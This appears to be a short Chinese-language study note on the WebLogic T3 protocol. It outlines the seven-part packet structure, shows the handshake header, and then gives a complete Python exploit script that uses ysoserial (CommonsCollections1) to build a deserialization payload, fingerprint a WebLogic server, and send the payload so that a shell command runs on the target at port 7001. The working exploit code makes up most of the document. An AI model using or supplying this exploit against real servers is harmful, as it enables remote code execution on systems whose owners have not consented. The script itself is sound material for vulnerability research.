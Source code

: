 ![image-20220420150921622](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220420150921622.png)



T3数据包分为七个部分，第一个部分是协议头，也就是

```
t3 12.2.3\nAS:255\nHL:19\nMS:10000000\n\n
```

第二部分到第七部分都是序列化数据

可以通过如下脚本来看看包含请求主体的样子

```
from os import popen
import struct  # 负责大小端的转换
import subprocess
from sys import stdout
import socket
import re
import binascii


def generatePayload(gadget, cmd):
    YSO_PATH = "ysoserial.jar"
    popen = subprocess.Popen(['java', '-jar', YSO_PATH, gadget, cmd], stdout=subprocess.PIPE)
    return popen.stdout.read()


def T3Exploit(ip, port, payload):
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect((ip, port))
    handshake = "t3 12.2.3\nAS:255\nHL:19\nMS:10000000\n\n"
    sock.sendall(handshake.encode())
    data = sock.recv(1024)
    compile = re.compile("HELO:(.*).0.false")
    match = compile.findall(data.decode())
    if match:
        print("Weblogic: " + "".join(match))
    else:
        print("Not Weblogic")
        # return
    header = binascii.a2b_hex(b"00000000")
    t3header = binascii.a2b_hex(
        b"016501ffffffffffffffff000000690000ea60000000184e1cac5d00dbae7b5fb5f04d7a1678d3b7d14d11bf136d67027973720078720178720278700000000a000000030000000000000006007070707070700000000a000000030000000000000006007006")
    desflag = binascii.a2b_hex(b"fe010000")
    payload = header + t3header + desflag + payload
    payload = struct.pack(">I", len(payload)) + payload[4:]
    sock.send(payload)


if __name__ == "__main__":
    ip = "192.168.121.132"
    port = 7001
    gadget = "CommonsCollections1"
    cmd = "touch /tmp/success"
    payload = generatePayload(gadget, cmd)
    T3Exploit(ip, port, payload)
```
